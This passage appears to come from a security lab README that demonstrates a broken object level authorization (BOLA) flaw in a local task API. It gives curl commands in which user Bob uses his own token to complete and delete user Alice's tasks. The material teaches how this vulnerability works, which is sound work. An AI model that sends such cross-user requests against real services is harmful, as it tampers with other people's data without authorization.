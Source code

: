 #### Bob creates his task:
```bash
curl -X POST http://localhost:3000/api/tareas \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "titulo": "Bob: Review Security Policies", 
    "descripcion": "Review and update company security policies"
  }'
```

### Step 5: View Tasks to Get IDs

#### Alice views her tasks:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  | jq '.'
```

#### Bob views his tasks:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "Authorization: Bearer $BOB_TOKEN" \
  | jq '.'
```

> **📝 Note the task IDs!** You'll need them for the attack.

### Step 6: 🚨 DEMONSTRATE THE BOLA ATTACK!

#### Attack Scenario: Bob tries to complete Alice's task

```bash
# Bob attempts to complete Alice's task (Task ID 1)
curl -X PUT http://localhost:3000/api/tareas/1/completar \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "comentario": "HACKED! Bob completed Alice'\''s task - BOLA vulnerability!"
  }'
```

**⚠️ Expected Result (Vulnerable):** `{"mensaje":"Tarea completada exitosamente"}`

#### Attack Scenario: Bob tries to delete Alice's task

```bash
# Bob attempts to delete Alice's remaining task (Task ID X)
curl -X DELETE http://localhost:3000/api/tareas/2/borrar \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -d '{
    "comentario": "HACKED! Bob deleted Alice'\''s task - BOLA vulnerability!"
  }'
```
